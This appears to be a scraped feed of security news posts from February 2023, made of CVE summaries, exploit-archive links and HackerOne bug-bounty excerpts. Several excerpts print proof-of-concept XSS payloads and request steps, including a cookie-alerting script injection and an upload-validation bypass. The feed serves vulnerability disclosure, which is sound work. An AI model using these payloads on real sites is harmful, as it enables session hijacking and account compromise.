Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-02-24`

<blockquote>
Employee Task Management System 1.0 SQL Injection
https://packetstormsecurity.com/files/171115/etms10-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/171115/etms10-sql.txt">
https://packetstormsecurity.com/files/171115/etms10-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-02-24`

<blockquote>
Auto Dealer Management System 1.0 SQL Injection
https://packetstormsecurity.com/files/171112/adms10-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/171112/adms10-sql.txt">
https://packetstormsecurity.com/files/171112/adms10-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-02-24`

<blockquote>
U.S. Dept Of Defense: [XSS] Reflected XSS via POST request
https://vulners.com/hackerone/H1:1850235?utm_source&#61;rss&amp;utm_medium&#61;rss&amp;utm_campaign&#61;rss
</blockquote>

<table><tr><td><b>→</b><a href="https://vulners.com/hackerone/H1:1850235?utm_source=rss&utm_medium=rss&utm_campaign=rss">
https://vulners.com/hackerone/H1:1850235?utm_source=rss&utm_medium=rss&utm_campaign=rss
</a>
<blockquote>
Description: XSS vulnerability found on one of  █████████ subdomains. [ DoD scope] After analyzing https:// ██████████/ I found  ██████/ ████████-historic.cfm page that send some parameters to servers.  fld_displaytype parameter vulnerable to XSS vulnerability. fld_displaytype&#61;S changed to fld_displaytype&#61;S&quot;%20accesskey%3d&quot;X&quot;%20onclick%3d&quot;alert('XSS Success!') WAF deployed on the endpoint to prevent such a attacks but I found another domain linked to this host but WAF did not cover that so I success to fire the payload. By sending the POST request to https:// █████████████████/ , payload has been successfully triggered.  ``` POST / ██████/ ███████-historic.cfm HTTP/1.1 Host:  █████████ Cookie: CFID&#61;29878711; CFTOKEN&#61;71972184 User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0 Accept: text/html,application/xhtml+xml,application/xml;q&#61;0.9,image/avif,image/webp,/;q&#61;0.8 Accept-Language: en-US,en;q&#61;0.5 Accept-Encoding: gzip, deflate Content-Type: application/x-www-form-urlencoded Content…
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-02-24`

<blockquote>
U.S. Dept Of Defense: [█████] Bug Reports allow for Unrestricted File Upload
https://vulners.com/hackerone/H1:1850065?utm_source&#61;rss&amp;utm_medium&#61;rss&amp;utm_campaign&#61;rss
</blockquote>

<table><tr><td><b>→</b><a href="https://vulners.com/hackerone/H1:1850065?utm_source=rss&utm_medium=rss&utm_campaign=rss">
https://vulners.com/hackerone/H1:1850065?utm_source=rss&utm_medium=rss&utm_campaign=rss
</a>
<blockquote>
The web page https:// ███████/ allows for users to submit bug reports. Users are allowed to attach a file to a bug report. The extension and size of files are not validated by the web server. Impact An attacker can attach a malicious file to a bug report. If a support agent opened the malicious file, malware would be executed on the support agent's system. System Host(s)  ████████ Affected Product(s) and Version(s) Version: 3.4 Build: 35 Revision: 1 CVE Numbers Steps to Reproduce  Navigate to the following web page: https:// ████████/ Create an account Log in to the account that you created Click on the text that reads Report a Bug Enter any text in to the Description input field Attach a file with an allowed file extension to the bug report Click on the text that reads Submit Intercept the HTTP request and change the extension of the attached file to one that is not allowed  Observe that the bug report was successfully submitted. This should not be the case, as the attached file has a file extension that is not…
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-02-24`

<blockquote>
U.S. Dept Of Defense: Reflected XSS at ████████
https://vulners.com/hackerone/H1:1834042?utm_source&#61;rss&amp;utm_medium&#61;rss&amp;utm_campaign&#61;rss
</blockquote>

<table><tr><td><b>→</b><a href="https://vulners.com/hackerone/H1:1834042?utm_source=rss&utm_medium=rss&utm_campaign=rss">
https://vulners.com/hackerone/H1:1834042?utm_source=rss&utm_medium=rss&utm_campaign=rss
</a>
<blockquote>
The domain  █████████ have dochelper where the user id is submitted. We can submit the crafted XSS payload to pop the alert message by accesing the cookie. POC URL:  https:// ████/dochelper?userId&#61;&lt;/b&gt;&lt;script&gt;alert(document.cookie)&lt;/script&gt;&lt;b&gt;&lt;!--  █████ References CVE-2016-5682 https://portswigger.net/web-security/cross-site-scripting https://www.bugbountyhunter.com/vulnerability/?type&#61;xss Impact  As an attacker, I can Steal the cookie of the User, by sending a crafted mail to them. Victim's Account can be compramised Impersonate or masquerade as the victim user. Carry out any action that the user is able to perform. Read any data that the user is able to access. Capture the user's login credentials. Perform virtual defacement of the web site. Inject trojan functionality into the web site.  System Host(s)  █████████ Affected Product(s) and Version(s) CVE Numbers CVE-2016-5682 Steps to Reproduce  Visit https:// ████████/dochelper?userId&#61; Put a crafetd XSS payload to the userId parameter....
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-02-24`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25693

<blockquote>
‼ CVE-2023-25693 ‼

Improper Input Validation vulnerability in the Apache Airflow Sqoop Provider. This issue affects Apache Airflow Sqoop Provider versions before 3.1.1.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-24`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25696

<blockquote>
‼ CVE-2023-25696 ‼

Improper Input Validation vulnerability in the Apache Airflow Hive Provider. This issue affects Apache Airflow Hive Provider versions before 5.1.3.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-24`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25692

<blockquote>
‼ CVE-2023-25692 ‼

Improper Input Validation vulnerability in the Apache Airflow Google Provider. This issue affects Apache Airflow Google Provider versions before 8.10.0.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-24`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25691

<blockquote>
‼ CVE-2023-25691 ‼

Improper Input Validation vulnerability in the Apache Airflow Google Provider. This issue affects Apache Airflow Google Provider versions before 8.10.0.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-24`

* https://portswigger.net/daily-swig/deserialized-web-security-roundup-twitter-2fa-backlash-godaddy-suffers-years-long-attack-campaign-and-xss-hunter-adds-e2e-encryption

<blockquote>
🗓️ Deserialized web security roundup: Twitter 2FA backlash, GoDaddy suffers years-long attack campaign, and XSS Hunter adds e2e encryption 🗓️

Your fortnightly rundown of AppSec vulnerabilities, new hacking techniques, and other cybersecurity news

📖 Read

via &quot;The Daily Swig&quot;.
</blockquote>

<table><tr><td><b>→</b><a href="https://portswigger.net/daily-swig/deserialized-web-security-roundup-twitter-2fa-backlash-godaddy-suffers-years-long-attack-campaign-and-xss-hunter-adds-e2e-encryption">
https://portswigger.net/daily-swig/deserialized-web-security-roundup-twitter-2fa-backlash-godaddy-suffers-years-long-attack-campaign-and-xss-hunter-adds-e2e-encryption
</a>
<blockquote>
Your fortnightly rundown of AppSec vulnerabilities, new hacking techniques, and other cybersecurity news
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-02-24`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-1004

<blockquote>
‼ CVE-2023-1004 ‼

A vulnerability has been found in MarkText up to 0.17.1 and classified as critical. Affected by this vulnerability is an unknown functionality of the component WSH JScript Handler. The manipulation leads to code injection. Local access is required to approach this attack. The exploit has been disclosed to the public and may be used. The identifier VDB-221737 was assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-24`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-48345

<blockquote>
‼ CVE-2022-48345 ‼

sanitize-url (aka @braintree/sanitize-url) before 6.0.2 allows XSS via HTML entities.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-24`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0997

<blockquote>
‼ CVE-2023-0997 ‼

A vulnerability was found in SourceCodester Moosikay E-Commerce System 1.0. It has been rated as critical. Affected by this issue is some unknown functionality of the file /Moosikay/order.php of the component POST Parameter Handler. The manipulation of the argument username leads to sql injection. The attack may be launched remotely. The exploit has been disclosed to the public and may be used. The identifier of this vulnerability is VDB-221732.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-24`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-1005

<blockquote>
‼ CVE-2023-1005 ‼

A vulnerability was found in JP1016 Markdown-Electron and classified as critical. Affected by this issue is some unknown functionality. The manipulation leads to code injection. Attacking locally is a requirement. The exploit has been disclosed to the public and may be used. Continious delivery with rolling releases is used by this product. Therefore, no version details of affected nor updated releases are available. VDB-221738 is the identifier assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2023-02-24`

<blockquote>
Automattic: Stored XSS on app.crowdsignal.com  your-subdomain.crowdsignal.net via Thank You Header
https://vulners.com/hackerone/H1:1842822?utm_source&#61;rss&amp;utm_medium&#61;rss&amp;utm_campaign&#61;rss
</blockquote>

<table><tr><td><b>→</b><a href="https://vulners.com/hackerone/H1:1842822?utm_source=rss&utm_medium=rss&utm_campaign=rss">
https://vulners.com/hackerone/H1:1842822?utm_source=rss&utm_medium=rss&utm_campaign=rss
</a>
<blockquote>
Summary: Hi, I hope you're having a good day. I found an Stored XSS at app.crowdsignal.net. Platform(s) Affected: app.crowdsignal.net Steps To Reproduce:  Go to https://app.crowdsignal.com/dashboard and create a project Add any thing to the project and publish the project and intercept the request while publishing. Edit the Thank You Header with this payload &lt;a href&#61;'javascript:alert(document.domain);'&gt;Click Me&lt;/a&gt; Open the Project you published and fill the form and click submit you will be redirected to thank you page click at the button and the XSS will fired.  Supporting Material/References: {F2131959} Impact Stored...
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-02-24`

<blockquote>
SSO Gadgets: Escalate (Self-)XSS to ATO
https://www.reddit.com/r/netsec/comments/11ao0tb/sso_gadgets_escalate_selfxss_to_ato/
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/netsec/comments/11ao0tb/sso_gadgets_escalate_selfxss_to_ato/">
https://www.reddit.com/r/netsec/comments/11ao0tb/sso_gadgets_escalate_selfxss_to_ato/
</a>
<blockquote>
Posted by u/albinowax - No votes and no comments
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-02-24`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0995

<blockquote>
‼ CVE-2023-0995 ‼

Cross-site Scripting (XSS) - Stored in GitHub repository unilogies/bumsys prior to v2.0.1.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-23`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24205

<blockquote>
‼ CVE-2023-24205 ‼

Clash for Windows v0.20.12 was discovered to contain a remote code execution (RCE) vulnerability which is exploited via overwriting the configuration file (cfw-setting.yaml).

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-23`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-46785

<blockquote>
‼ CVE-2022-46785 ‼

SquaredUp Dashboard Server SCOM edition before 5.7.1 GA allows XSS (issue 1 of 2).

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2023-02-23`

<blockquote>
Introducing Burp DOM Scanner, a Burp Suite's extension to scan and crawl Single Page Applications. It can discover and verify DOM based XSS by tracking JavaScript execution.
https://www.reddit.com/r/netsec/comments/1180mdg/introducing_burp_dom_scanner_a_burp_suites/
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/netsec/comments/1180mdg/introducing_burp_dom_scanner_a_burp_suites/">
https://www.reddit.com/r/netsec/comments/1180mdg/introducing_burp_dom_scanner_a_burp_suites/
</a>
<blockquote>
Posted by u/filippo_cavallarin - 1 vote and no comments
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-02-23`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-46786

<blockquote>
‼ CVE-2022-46786 ‼

SquaredUp Dashboard Server SCOM edition before 5.7.1 GA allows XSS (issue 2 of 2).

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-23`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-26326

<blockquote>
‼ CVE-2023-26326 ‼

The BuddyForms WordPress plugin, in versions prior to 2.7.8, was affected by an unauthenticated insecure deserialization issue. An unauthenticated attacker could leverage this issue to call files using a PHAR wrapper that will deserialize the data and call arbitrary PHP Objects that can be used to perform a variety of malicious actions granted a POP chain is also present.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-23`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-26325

<blockquote>
‼ CVE-2023-26325 ‼

The 'rx_export_review' action in the ReviewX WordPress Plugin version &lt; 1.6.4, is affected by an authenticated SQL injection vulnerability in the 'filterValue' and 'selectedColumns' parameters.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-23`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23917

<blockquote>
‼ CVE-2023-23917 ‼

A prototype pollution vulnerability exists in Rocket.Chat server &lt;5.2.0 that could allow an attacker to a RCE under the admin account. Any user can create their own server in your cloud and become an admin so this vulnerability could affect the cloud infrastructure. This attack vector also may increase the impact of XSS to RCE which is dangerous for self-hosted users as well.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-23`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-20016

<blockquote>
‼ CVE-2023-20016 ‼

A vulnerability in the backup configuration feature of Cisco UCS Manager Software and in the configuration export feature of Cisco FXOS Software could allow an unauthenticated attacker with access to a backup file to decrypt sensitive information stored in the full state and configuration backup files. This vulnerability is due to a weakness in the encryption method used for the backup function. An attacker could exploit this vulnerability by leveraging a static key used for the backup configuration feature. A successful exploit could allow the attacker to decrypt sensitive information that is stored in full state and configuration backup files, such as local user credentials, authentication server passwords, Simple Network Management Protocol (SNMP) community names, and other credentials.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-23`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-48344

<blockquote>
‼ CVE-2022-48344 ‼

In JetBrains TeamCity before 2022.10.2 there was an XSS vulnerability in the group creation process.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-23`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-48343

<blockquote>
‼ CVE-2022-48343 ‼

In JetBrains TeamCity before 2022.10.2 there was an XSS vulnerability in the user creation process.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-23`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0986

<blockquote>
‼ CVE-2023-0986 ‼

A vulnerability classified as critical has been found in SourceCodester Sales Tracker Management System 1.0. This affects an unknown part of the file admin/?page&#61;user/manage_user of the component Edit User. The manipulation of the argument id leads to sql injection. It is possible to initiate the attack remotely. The associated identifier of this vulnerability is VDB-221679.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2023-02-23`

<blockquote>
Device Manager Express 7.8.20002.47752 SQL Injection / XSS / Code Execution / Traversal
http://exploit.kitploit.com/2023/02/device-manager-express-782000247752-sql.html
</blockquote>

<table><tr><td><b>→</b><a href="https://exploit.kitploit.com/2023/02/device-manager-express-782000247752-sql.html">
https://exploit.kitploit.com/2023/02/device-manager-express-782000247752-sql.html
</a>
<blockquote>
Exploit Collector is the ultimate collection of public exploits and exploitable vulnerabilities. Remote/Local Exploits, Shellcode and 0days.
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-02-23`

<blockquote>
Device Manager Express 7.8.20002.47752 SQL Injection / XSS / Code Execution / Traversal
https://packetstormsecurity.com/files/171109/acdme78-sqlexecxsstraversal.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/171109/acdme78-sqlexecxsstraversal.txt">
https://packetstormsecurity.com/files/171109/acdme78-sqlexecxsstraversal.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-02-23`

<blockquote>
Yoga Class Registration System 1.0 SQL Injection
https://packetstormsecurity.com/files/171098/ycrs10-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/171098/ycrs10-sql.txt">
https://packetstormsecurity.com/files/171098/ycrs10-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2023-02-23`

<blockquote>
Yoga Class Registration System 1.0 SQL Injection
http://exploit.kitploit.com/2023/02/yoga-class-registration-system-10-sql.html
</blockquote>

<table><tr><td><b>→</b><a href="https://exploit.kitploit.com/2023/02/yoga-class-registration-system-10-sql.html">
https://exploit.kitploit.com/2023/02/yoga-class-registration-system-10-sql.html
</a>
<blockquote>
Exploit Collector is the ultimate collection of public exploits and exploitable vulnerabilities. Remote/Local Exploits, Shellcode and 0days.
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-02-23`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0939

<blockquote>
‼ CVE-2023-0939 ‼

Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection') vulnerability in NTN Information Technologies Online Services Software allows SQL Injection.This issue affects Online Services Software: before 1.17.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-23`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-48149

<blockquote>
‼ CVE-2022-48149 ‼

Online Student Admission System in PHP Free Source Code 1.0 was discovered to contain a SQL injection vulnerability via the username parameter.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-22`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-22973

<blockquote>
‼ CVE-2023-22973 ‼

A Local File Inclusion (LFI) vulnerability in interface/forms/LBF/new.php in OpenEMR &lt; 7.0.0 allows remote authenticated users to execute code via the formname parameter.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-22`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-22972

<blockquote>
‼ CVE-2023-22972 ‼

A Reflected Cross-site scripting (XSS) vulnerability in interface/forms/eye_mag/php/eye_mag_functions.php in OpenEMR &lt; 7.0.0 allows remote authenticated users to inject arbitrary web script or HTML via the REQUEST_URI.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-22`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-29273

<blockquote>
‼ CVE-2022-29273 ‼

pfSense CE through 2.6.0 and pfSense Plus before 22.05 allow XSS in the WebGUI via URL Table Alias URL parameters.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-22`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24114

<blockquote>
‼ CVE-2023-24114 ‼

typecho 1.1/17.10.30 was discovered to contain a remote code execution (RCE) vulnerability via install.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-22`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0962

<blockquote>
‼ CVE-2023-0962 ‼

A vulnerability was found in SourceCodester Music Gallery Site 1.0. It has been declared as critical. This vulnerability affects unknown code of the file Master.php of the component GET Request Handler. The manipulation of the argument id leads to sql injection. The attack can be initiated remotely. The exploit has been disclosed to the public and may be used. The identifier of this vulnerability is VDB-221632.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-22`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0961

<blockquote>
‼ CVE-2023-0961 ‼

A vulnerability was found in SourceCodester Music Gallery Site 1.0. It has been classified as critical. This affects an unknown part of the file view_music_details.php of the component GET Request Handler. The manipulation of the argument id leads to sql injection. It is possible to initiate the attack remotely. The exploit has been disclosed to the public and may be used. The associated identifier of this vulnerability is VDB-221631.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-22`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25813

<blockquote>
‼ CVE-2023-25813 ‼

Sequelize is a Node.js ORM tool. In versions prior to 6.19.1 a SQL injection exploit exists related to replacements. Parameters which are passed through replacements are not properly escaped which can lead to arbitrary SQL injection depending on the specific queries in use. The issue has been fixed in Sequelize 6.19.1. Users are advised to upgrade. Users unable to upgrade should not use the `replacements` and the `where` option in the same query.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-22`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0964

<blockquote>
‼ CVE-2023-0964 ‼

A vulnerability classified as critical has been found in SourceCodester Sales Tracker Management System 1.0. Affected is an unknown function of the file admin/products/view_product.php. The manipulation of the argument id leads to sql injection. It is possible to launch the attack remotely. VDB-221634 is the identifier assigned to this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-22`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24812

<blockquote>
‼ CVE-2023-24812 ‼

Misskey is an open source, decentralized social media platform. In versions prior to 13.3.3 SQL injection is possible due to insufficient parameter validation in the note search API by tag (notes/search-by-tag). This has been fixed in version 13.3.3. Users are advised to upgrade. Users unable to upgrade should block access to the `api/notes/search-by-tag` endpoint.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-22`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-26214

<blockquote>
‼ CVE-2023-26214 ‼

The BusinessConnect UI component of TIBCO Software Inc.'s TIBCO BusinessConnect contains easily exploitable Reflected Cross Site Scripting (XSS) vulnerabilities that allow a low privileged attacker with network access to execute scripts targeting the affected system or the victim's local system. Affected releases are TIBCO Software Inc.'s TIBCO BusinessConnect: versions 7.3.0 and below.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-22`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-41565

<blockquote>
‼ CVE-2022-41565 ‼

The Web Application component of TIBCO Software Inc.'s TIBCO EBX and TIBCO Product and Service Catalog powered by TIBCO EBX contains an easily exploitable vulnerability that allows a low privileged attacker with network access to execute a stored XSS on the affected system. Affected releases are TIBCO Software Inc.'s TIBCO EBX: versions 5.9.21 and below, versions 6.0.11 and below and TIBCO Product and Service Catalog powered by TIBCO EBX: versions 1.2.0 and below.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-22`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-41567

<blockquote>
‼ CVE-2022-41567 ‼

The BusinessConnect UI component of TIBCO Software Inc.'s TIBCO BusinessConnect contains an easily exploitable vulnerability that allows a low privileged attacker with network access to execute a cross-site scripting (XSS) attack on the affected system. Affected releases are TIBCO Software Inc.'s TIBCO BusinessConnect: versions 7.3.0 and below.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-22`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-41566

<blockquote>
‼ CVE-2022-41566 ‼

The server component of TIBCO Software Inc.'s TIBCO EBX Add-ons contains an easily exploitable vulnerability that allows a low privileged attacker with network access to execute stored XSS on the affected system. Affected releases are TIBCO Software Inc.'s TIBCO EBX Add-ons: versions 5.6.0 and below.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-22`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-41216

<blockquote>
‼ CVE-2022-41216 ‼

Local File Inclusion vulnerability within Cloudflow allows attackers to retrieve confidential information from the system.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2023-02-22`

<blockquote>
Krisp: SQL Injection + Insecure Deserialization leads to Remote Code Execution on https://krisp.ai
https://vulners.com/hackerone/H1:1842674?utm_source&#61;rss&amp;utm_medium&#61;rss&amp;utm_campaign&#61;rss
</blockquote>

<table><tr><td><b>→</b><a href="https://krisp.ai/">
https://krisp.ai/
</a>
<blockquote>
Krisp cancels background noise and reduces echo during your calls. Get started with Krisp today and enjoy effective online meetings.
</blockquote>
</td></tr></table>

---

# cibsecurity
`2023-02-22`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-24081

<blockquote>
‼ CVE-2023-24081 ‼

Multiple stored cross-site scripting (XSS) vulnerabilities in Redrock Software TutorTrac before v4.2.170210 allows attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the reason and location fields of the visits listing page.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-22`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-20855

<blockquote>
‼ CVE-2023-20855 ‼

VMware vRealize Orchestrator contains an XML External Entity (XXE) vulnerability. A malicious actor, with non-administrative access to vRealize Orchestrator, may be able to use specially crafted input to bypass XML parsing restrictions leading to access to sensitive information or possible escalation of privileges.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-21`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25657

<blockquote>
‼ CVE-2023-25657 ‼

Nautobot is a Network Source of Truth and Network Automation Platform. All users of Nautobot versions earlier than 1.5.7 are impacted by a remote code execution vulnerability. Nautobot did not properly sandbox Jinja2 template rendering. In Nautobot 1.5.7 has enabled sandboxed environments for the Jinja2 template engine used internally for template rendering for the following objects: `extras.ComputedField`, `extras.CustomLink`, `extras.ExportTemplate`, `extras.Secret`, `extras.Webhook`. While no active exploits of this vulnerability are known this change has been made as a preventative measure to protect against any potential remote code execution attacks utilizing maliciously crafted template code. This change forces the Jinja2 template engine to use a `SandboxedEnvironment` on all new installations of Nautobot. This addresses any potential unsafe code execution everywhere the helper function `nautobot.utilities.utils.render_jinja2` is called. Additionally, the documentation that had previously suggesting the direct use of `jinja2.Template` has been revised to suggest `render_jinja2`. Users are advised to upgrade to Nautobot 1.5.7 or newer. For users that are unable to upgrade to the latest release of Nautobot, you may add the following setting to your `nautobot_config.py` to apply the sandbox environment enforcement: `TEMPLATES[1][&quot;OPTIONS&quot;][&quot;environment&quot;] &#61; &quot;jinja2.sandbox.SandboxedEnvironment&quot;` After applying this change, you must restart all Nautobot services, including any Celery worker processes. **Note:** *Nautobot specifies two template engines by default, the first being “django� for the Django built-in template engine, and the second being “jinja� for the Jinja2 template engine. This recommended setting will update the second item in the list of template engines, which is the Jinja2 engine.* For users that are unable to immediately update their configuration such as if a Nautobot service restart is too disruptive to operations, access to provide custom Jinja2 template values may be mitigated using permissions to restrict “change� (write) actions to the affected object types listed in the first section. **Note:** *This solution is intended to be stopgap until you can successfully update your `nautobot_config.py` or upgrade your Nautobot instance to apply the sandboxed environment enforcement.*

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-21`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25158

<blockquote>
‼ CVE-2023-25158 ‼

GeoTools is an open source Java library that provides tools for geospatial data. GeoTools includes support for OGC Filter expression language parsing, encoding and execution against a range of datastore. SQL Injection Vulnerabilities have been found when executing OGC Filters with JDBCDataStore implementations. Users are advised to upgrade to either version 27.4 or to 28.2 to resolve this issue. Users unable to upgrade may disable `encode functions` for PostGIS DataStores or enable `prepared statements` for JDBCDataStores as a partial mitigation.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-21`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25810

<blockquote>
‼ CVE-2023-25810 ‼

Uptime Kuma is a self-hosted monitoring tool. In versions prior to 1.20.0 the Uptime Kuma status page allows a persistent XSS attack. Users are advised to upgrade. There are no known workarounds for this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-21`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-25811

<blockquote>
‼ CVE-2023-25811 ‼

Uptime Kuma is a self-hosted monitoring tool. In versions prior to 1.20.0 the Uptime Kuma `name` parameter allows a persistent XSS attack. Users are advised to upgrade. There are no known workarounds for this vulnerability.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-02-21`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-0946

<blockquote>
‼ CVE-2023-0946 ‼

